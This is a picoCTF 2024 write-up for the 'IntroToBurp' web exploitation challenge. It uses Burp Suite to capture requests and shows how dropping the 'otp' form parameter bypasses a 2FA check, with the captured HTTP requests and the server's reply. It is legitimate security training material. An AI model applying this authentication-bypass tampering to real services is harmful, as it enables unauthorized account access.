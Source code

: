 # IntroToBurp

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2024, Web Exploitation
Author: NANA AMA ATOMBO-SACKEY & SABINE GISAGARA

Description:
Try here to find the flag

Hints:
1. Try using burpsuite to intercept request to capture the flag.
3. Try mangling the request, maybe their server-side code doesn't handle 
   malformed requests very well.
```
Challenge link: [https://play.picoctf.org/practice/challenge/419](https://play.picoctf.org/practice/challenge/419)

## Solution

### Analyse the web site

Browse to the web site and you will see a registration web page with five text boxes and a `Register` button.

Start [BURP Suite](https://portswigger.net/burp) and configure your browser to use Burp as its proxy.
Then set 'Intercept' to off under the `Proxy` -> `Intercept` tab.

Next, we register some bogus information on the web page and let Burp catch the request which looks like this
```
POST / HTTP/1.1
Host: titan.picoctf.net:59762
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:59762/
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://titan.picoctf.net:59762
DNT: 1
Connection: keep-alive
Cookie: session=.eJw1jcsKwjAQRX9Fsu7CpHnpB_gDxXVokiktzaMkKSLivzsV3Z17LnfmRdzSnuRKhpbdOucQSUdcLZNpeYWEBQUvuHVcT1ppBkpZKdioLAjbq9477h1jkl5wN-0hmDRGwNkN-fTljuS2oRGcaXrGuI21PnLx6AK0CEs65JwTmLRHC-X4ynoupMJir1B-N-9_fH8AZl045Q.ZmbzvA.b9WKQbgaex2C-M19mGpLM2OMMYw
Upgrade-Insecure-Requests: 1
Priority: u=1

csrf_token=IjFlZDU0YmM0OGY4NzgyZTc3YjY1MmE3YmU1YjM3M2RjNGRjMjI2MTki.Zmb14Q.m0F_00t8_d03iaIal1cDYGISH7Y&full_name=A&username=B&phone_number=C&city=D&password=E&submit=Register
```

After submitting the registration data you are redirected to a `/dashboard` page which wants a 2FA value.  
Submit any bogus data here.  

This request looks like this
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:59762
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:59762/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net:59762
DNT: 1
Connection: keep-alive
Cookie: session=.eJwti8sOwiAQAP9lzx6EQhe9afU7CI8lGltooMQY47-7Jt5mJpk3hPv2giNcYAeh1WS38qDMQVDUygdlkkEjCdGPWjr0pP2AQwwqBilHceAv9Xm22S3E24m9bCsTCmlwz7q61p6lRm7Xn95KJpv74qlymjj1RvX_n-HzBaDgK5c.Zmb6Dw.kY8tuOGUScAGpfmmCA7JVYn5T6E
Upgrade-Insecure-Requests: 1
Priority: u=1

otp=bogus
```
The result is a web page displaying `Invalid OTP`.

### Get the flag

To get the flag we need to maniplulate the POST-request to `/dashboard`.  
Under `Proxy` -> `HTTP history` tab right-click on this POST request and 'Send to Repeater'.  
Then navigate to the `Repeater` tab.  

Change the `otp` value in the request to something else and set it to any value.  
Then send the request.

I used the following request
```
<---Unchanged data removed for readability--->
Upgrade-Insecure-Requests: 1
Priority: u=1

bogus=4711
```
And got this reply back
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 10 Jun 2024 13:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 102
Vary: Cookie
Connection: close

Welcome, B you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Burp suite - Homepage](https://portswigger.net/burp)
- [Wikipedia - HTTP](https://en.wikipedia.org/wiki/HTTP)
- [Wikipedia - Multi-factor authentication](https://en.wikipedia.org/wiki/Multi-factor_authentication)
- [Wikipedia - One-time password](https://en.wikipedia.org/wiki/One-time_password)

